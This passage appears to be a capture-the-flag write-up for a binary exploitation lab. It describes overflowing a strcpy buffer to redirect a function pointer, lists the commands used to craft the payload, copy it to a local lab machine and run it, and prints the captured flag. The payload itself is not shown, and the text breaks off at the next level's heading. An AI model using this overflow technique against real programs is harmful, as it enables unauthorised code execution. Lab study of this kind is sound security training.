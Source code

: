 ![level6.png](ressource/level6.png)
### Solution:
- We can overflow the ``dest`` buffer through the ``strcpy`` call.
- We don't want that ``fn_ptr`` point to the ``m`` fn.
- We craft a payload that will change the data pointed by fn_ptr to the ``n`` function.
- ``python3 ./level6/craft_payload.py && scp -P 4243 ./payload level6@localhost:/tmp/payload``
- ``cat payload | ./level6``
### Result:
    f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

## Level7:
### Code after RE: